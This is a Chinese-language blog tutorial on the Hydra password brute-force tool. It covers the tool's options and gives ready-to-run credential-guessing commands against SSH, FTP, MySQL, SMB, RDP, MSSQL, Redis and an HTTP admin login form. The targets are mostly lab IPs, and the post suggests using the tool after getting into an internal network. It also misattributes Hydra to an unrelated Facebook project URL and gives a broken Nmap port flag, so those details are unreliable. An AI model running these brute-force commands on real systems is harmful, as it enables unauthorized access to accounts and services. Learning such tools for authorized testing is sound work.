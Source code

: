 ```yaml
---
layout: post
title: hydra基础使用
categories: 安全工具
description: hydra基础使用
keywords: hydra基础使用
---
```


hydra基础使用

### 1、hydra/九头蛇简介

hydra 是一个端口穷举服务器的工具。

网址：`https://github.com/facebookresearch/hydra` 或者 `https://hydra.cc/`

kali里面就有

它支持的协议很多

```txt
adam6500 asterisk cisco cisco-enable cvs firebird ftp[s] http[s]-{head|get|post}
http[s]-{get|post}-form http-proxy http-proxy-urlenum icq imap[s] irc ldap2[s]
ldap3[-{cram|digest}md5][s] memcached mongodb mssql mysql nntp oracle-listener
oracle-sid pcanywhere pcnfs pop3[s] postgres radmin2 rdp redis rexec rlogin rpcap
rsh rtsp s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak
telnet[s] vmauthd vnc xmpp
```

使用：

```bash
hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e ns] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-f] [-s PORT] [-S] [-vV] server service [OPT]`
```

使用参数说明

```txt
-R：继续从上一次进度接着破解
-S：大写，采用 SSL 链接
-s <PORT>：小写，可通过这个参数指定非默认端口
-l <LOGIN>：指定破解的用户，对特定用户破解
-L <FILE>：指定用户名字典
-p <PASS>：小写，指定密码破解，少用，一般是采用密码字典
-P <FILE>：大写，指定密码字典
-e <ns>：可选选项，n：空密码试探，s：使用指定用户和密码试探
-C <FILE>：使用冒号分割格式，例如“登录名:密码”来代替-L/-P 参数
-M <FILE>：指定目标列表文件一行一条
-o <FILE>：指定结果输出文件
-f：在使用-M 参数以后，找到第一对登录名或者密码的时候中止破解
-t <TASKS>：同时运行的线程数，默认为 16
-w <TIME>：设置最大超时的时间，单位秒，默认是 30s
-v / -V：显示详细过程
server：目标 ip
service：指定服务名，支持的服务和协议：telnet ftp pop3[-ntlm] imap[-ntlm] smb smbnt http[s]-{head|get} http-{get|post}-form http-proxy cisco cisco-enable vnc ldap2 ldap3 mssql mysql oracle-listener postgres nntp socks5 rexec rlogin pcnfs snmp rsh cvs svn icq sapr3 ssh2 smtp-auth[-ntlm] pcanywhere teamspeak sip vmauthd firebird ncp afp 等等
OPT可选项
```

### 2、使用

例子：

```bash
hydra -l user -P passlist.txt ftp://192.168.0.1
hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
hydra -l admin -p password ftp://[192.168.0.0/24]/
hydra -L logins.txt -P pws.txt -M targets.txt ssh
```

可以在渗透进入内网了之后，在内网里面访问其他服务或者服务器使用。

下面都是靶机测试的截图，仅供参考学习。

#### 2.1 穷举ssh服务

ssh服务：专门为远程登录会话和其他网络服务(例如:rsync,ansible)提供的安全性协议

```python
hydra -L users.txt -P password.txt -t 1 -vV -e ns 192.168.1.104 ssh -o ssh.txt -f

"""
-L 用户字典文件 
-P 密码字典文件
-t 线程数 
-vV 详细信息 
-e ns 使用空口令使用指定用户和密码试探 
192.168.1.104 你要穷举的 ip 
ssh 是服务
-o 保存文件
-f 如果找到马上中断扫描
"""
```

ssh服务的两种连接写法

1. ssh://192.168.1.104
2. 192.168.1.104 ssh

查看SSH服务靶机的端口是否打开

```bash
Nmap -P 22 192.168.3.12
```

端口开放，可以进行爆破

```bash
hydra -l root -P /home/kali/top100password.txt -e ns -vV -t 1 -f 192.168.3.12 ssh
```

![穷举SSH](/images/blog/img/hydra/ssh.png)

#### 2.2 穷举FTP服务

FTP服务：FTP是一种上传和下载用的软件。用户可以通过它把自己的PC机与运行FTP协议的服务器相连，访问服务器上的程序和信息。

```bash
hydra -l c5moon -P /home/kali/top100password.txt -e ns -vV 192.168.3.15 ftp
```

![穷举FTP](/images/blog/img/hydra/ftp.png)

#### 2.3 穷举MYSQL服务

MySQL：数据库

```bash
hydra -l root -P /home/kali/top100password.txt -e ns -vV 192.168.3.11 mysql
```

![穷举MYSQL](/images/blog/img/hydra/mysql.png)

#### 2.4 穷举smb服务

smb服务：用于在计算机间共享文件、打印机、串口等，电脑上的网上邻居由它实现。

```bash
hydra -l administrator -P /home/kali/top100password.txt -e ns -vV 192.168.3.11 smb -o smb.txt
```

![穷举smb](/images/blog/img/hydra/smb.png)

还可以批量穷举

```bash
hydra -L user.txt -P /home/kali/top100password.txt -M ip.txt smb  -o smb.txt
```

![批量穷举smb](/images/blog/img/hydra/smb2.png)

#### 2.5 穷举rdp服务

rdp服务：远程桌面

```bash
hydra -L user.txt -P /home/kali/top100password.txt -M ip.txt rdp  -o rdp.txt
```

![批量穷举rdp](/images/blog/img/hydra/rdp.png)

#### 2.5 穷举HTTP服务

```bash
hydra -l admin -P top100password.txt -vV -f www.c1moon.com http-post-form "/admin/index.php:user=^USER^&ps=^PASS^&action=login:login-error"
```

![批量穷举HTTP](/images/blog/img/hydra/http.png)

#### 2.6 穷举mssql服务

```bash
hydra -l sa -P /home/kali/top100password.txt -e ns -vV 192.168.3.11 mssql
```

![批量穷举HTTP](/images/blog/img/hydra/mssql.png)

#### 2.6 穷举redis服务

```bash
hydra -P /home/kali/top100password.txt -e ns -vV  -f 192.168.3.11 redis
```

![批量穷举HTTP](/images/blog/img/hydra/redis.png)

### 3、xhydra 可视化

在kali里终端输入`xhydra`就可以打开可视化界面，进行可视化的操作。

![批量穷举HTTP](/images/blog/img/hydra/xhydra.png)
